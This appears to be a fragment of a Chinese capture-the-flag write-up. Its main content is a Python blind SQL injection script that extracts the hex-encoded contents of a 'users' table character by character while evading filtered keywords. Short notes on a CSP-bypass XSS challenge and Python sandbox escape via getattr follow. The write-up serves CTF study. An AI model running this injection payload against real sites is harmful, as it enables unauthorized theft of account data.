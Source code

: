```python
    try:
        coun=bs.find_all("ul",class_="message-info")[-1].find_all("li")[-1].find("em").text[11:13]
        return coun
    except IndexError:
        print(result.text)

i=800
# while(True):
#     print(sqlinject(input(),i))
#     i+=1
# select
# ban:table,information,where,username
# table users

result="3320396137336664313866656464393634333335376"
index=len(result)
while True:
    index+=1
    
    for num in range(16):
        i+=1
        sql="' or substr((hex((select group_concat(a) from (select 1,2,3`a`,4,5 union select * from users)`b`))),{},1)={}#".format(index,hex(num)[2:])
        res=sqlinject(sql,i)
        print(sql,res)
        if int(res)==22:
            result+=hex(num)[2:]
            break
    print(result)

```



### babyxss

题目提示绕过csp










## xman 个人排位赛



### escape

收获:了解了python沙箱逃逸这种类型

getattr:对沙箱逃逸有很大作用
